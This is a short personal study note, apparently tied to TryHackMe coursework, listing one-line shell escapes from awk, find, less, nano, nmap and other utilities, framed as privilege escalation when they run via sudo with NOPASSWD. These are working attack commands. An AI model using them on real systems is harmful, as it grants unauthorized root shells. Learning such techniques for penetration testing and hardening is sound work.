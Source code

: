 # Shell Escapes

author:: Nathan Acks  
date:: 2021-10-31

Many common UNIX applications allow you to escape to a shell. This is particularly useful if they can be run with NOPASSWD via sudo.

* `awk` - `awk 'BEGIN {system("/bin/sh")}'`
* `find` - `find . -exec /bin/sh \; -quit`
* `ftp` - `!/bin/sh`
* `iftop` - `!/bin/sh`
* `less` - `!/bin/sh`
* `man` - `!/bin/sh`
* `more` - `!/bin/sh` (may require TERM to be unset)
* `nano` - ^R^X followed by `reset; sh 1>&0 2>&0`
* `nmap` - create a file containing `os.execute("/bin/sh")` and then run `nmap --script=$FILE`
* `vim` - see "Set a Shell in ViM"

GTFOBins is your one-stop resource for shell escape information.

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins](https://gtfobins.github.io)
* [Enumerate "sudo" Access](enumerate-sudo-access.md)
* [Set a Shell in ViM](set-a-shell-in-vim.md)
